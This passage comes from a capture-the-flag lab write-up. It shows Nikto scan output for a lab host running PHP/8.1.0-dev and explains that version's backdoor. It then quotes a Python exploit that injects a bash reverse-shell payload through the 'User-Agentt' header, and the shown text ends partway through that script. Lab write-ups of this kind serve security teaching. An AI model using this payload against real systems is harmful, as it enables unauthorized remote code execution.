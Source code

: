 Unfortunately all these directories are forbidden except index.php, which is the homepage.


## Nikto
```console
kali@kali:~$ nikto -h 10.10.10.242 -ask no

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    10.10.10.242
+ Target Port:        80
+ Start Time:         2021-08-28 16:20:21 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7864 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-08-28 16:26:24 (GMT-4) (363 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

It appears that the application is using PHP/8.1.0-dev, which is development versions. Development versions are prone to vulnerabilities. So let's do more research about it.

### PHP/8.1.0-dev

Turns out PHP/8.1.0-dev has a backdoor vulnerability that allows attackers to execute arbitrary code by sending it to the **User-Agentt** header.

We can utilize one of the scripts `revshell_php_8.1.0-dev.py` in this github repository [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) to get a reverse shell.

First we download the repository.

```console
kali@kali:~$ git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```

Let's take a look at `revshell_php_8.1.0-dev.py`.

```python
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

```
